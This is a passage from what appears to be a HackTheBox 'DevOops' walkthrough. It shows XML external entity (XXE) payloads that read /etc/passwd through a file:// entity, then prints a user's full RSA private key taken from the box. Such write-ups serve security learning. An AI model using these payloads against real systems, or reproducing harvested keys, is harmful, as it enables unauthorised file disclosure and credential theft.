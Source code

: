 ```xml
<?xml version="1.0"?>
<!DOCTYPE data [
<!ELEMENT data (#ANY)>
<!ENTITY file SYSTEM "file:///etc/passwd">
]>
<data>&file;</data>
```

We adapt to our cenario and read the /etc/passwd

```xml
<?xml version="1.0"?>
<!DOCTYPE data [
<!ELEMENT data (ANY)>
<!ENTITY file SYSTEM "file:///etc/passwd">
]>

<payload>
  <Author>0x4rt3mis</Author>
  <Subject>XEE</Subject>
  <Content>&file;</Content>
</payload> 
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-19-HackTheBox-DevOops/2021-09-19-HackTheBox-DevOops%2002:45:06.png)

Since I know that there is a roosa user in this box. I can read it's ssh key

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-19-HackTheBox-DevOops/2021-09-19-HackTheBox-DevOops%2002:53:27.png)

```
-----BEGIN RSA PRIVATE KEY-----
MIIEogIBAAKCAQEAuMMt4qh/ib86xJBLmzePl6/5ZRNJkUj/Xuv1+d6nccTffb/7
9sIXha2h4a4fp18F53jdx3PqEO7HAXlszAlBvGdg63i+LxWmu8p5BrTmEPl+cQ4J
R/R+exNggHuqsp8rrcHq96lbXtORy8SOliUjfspPsWfY7JbktKyaQK0JunR25jVk
v5YhGVeyaTNmSNPTlpZCVGVAp1RotWdc/0ex7qznq45wLb2tZFGE0xmYTeXgoaX4
9QIQQnoi6DP3+7ErQSd6QGTq5mCvszpnTUsmwFj5JRdhjGszt0zBGllsVn99O90K
m3pN8SN1yWCTal6FLUiuxXg99YSV0tEl0rfSUwIDAQABAoIBAB6rj69jZyB3lQrS
JSrT80sr1At6QykR5ApewwtCcatKEgtu1iWlHIB9TTUIUYrYFEPTZYVZcY50BKbz
ACNyme3rf0Q3W+K3BmF//80kNFi3Ac1EljfSlzhZBBjv7msOTxLd8OJBw8AfAMHB
lCXKbnT6onYBlhnYBokTadu4nbfMm0ddJo5y32NaskFTAdAG882WkK5V5iszsE/3
koarlmzP1M0KPyaVrID3vgAvuJo3P6ynOoXlmn/oncZZdtwmhEjC23XALItW+lh7
e7ZKcMoH4J2W8OsbRXVF9YLSZz/AgHFI5XWp7V0Fyh2hp7UMe4dY0e1WKQn0wRKe
8oa9wQkCgYEA2tpna+vm3yIwu4ee12x2GhU7lsw58dcXXfn3pGLW7vQr5XcSVoqJ
Lk6u5T6VpcQTBCuM9+voiWDX0FUWE97obj8TYwL2vu2wk3ZJn00U83YQ4p9+tno6
NipeFs5ggIBQDU1k1nrBY10TpuyDgZL+2vxpfz1SdaHgHFgZDWjaEtUCgYEA2B93
hNNeXCaXAeS6NJHAxeTKOhapqRoJbNHjZAhsmCRENk6UhXyYCGxX40g7i7T15vt0
ESzdXu+uAG0/s3VNEdU5VggLu3RzpD1ePt03eBvimsgnciWlw6xuZlG3UEQJW8sk
A3+XsGjUpXv9TMt8XBf3muESRBmeVQUnp7RiVIcCgYBo9BZm7hGg7l+af1aQjuYw
agBSuAwNy43cNpUpU3Ep1RT8DVdRA0z4VSmQrKvNfDN2a4BGIO86eqPkt/lHfD3R
KRSeBfzY4VotzatO5wNmIjfExqJY1lL2SOkoXL5wwZgiWPxD00jM4wUapxAF4r2v
vR7Gs1zJJuE4FpOlF6SFJQKBgHbHBHa5e9iFVOSzgiq2GA4qqYG3RtMq/hcSWzh0
8MnE1MBL+5BJY3ztnnfJEQC9GZAyjh2KXLd6XlTZtfK4+vxcBUDk9x206IFRQOSn
y351RNrwOc2gJzQdJieRrX+thL8wK8DIdON9GbFBLXrxMo2ilnBGVjWbJstvI9Yl
aw0tAoGAGkndihmC5PayKdR1PYhdlVIsfEaDIgemK3/XxvnaUUcuWi2RhX3AlowG
xgQt1LOdApYoosALYta1JPen+65V02Fy5NgtoijLzvmNSz+rpRHGK6E8u3ihmmaq
82W3d4vCUPkKnrgG8F7s3GL6cqWcbZBd0j9u88fUWfPxfRaQU3s=
-----END RSA PRIVATE KEY-----
```
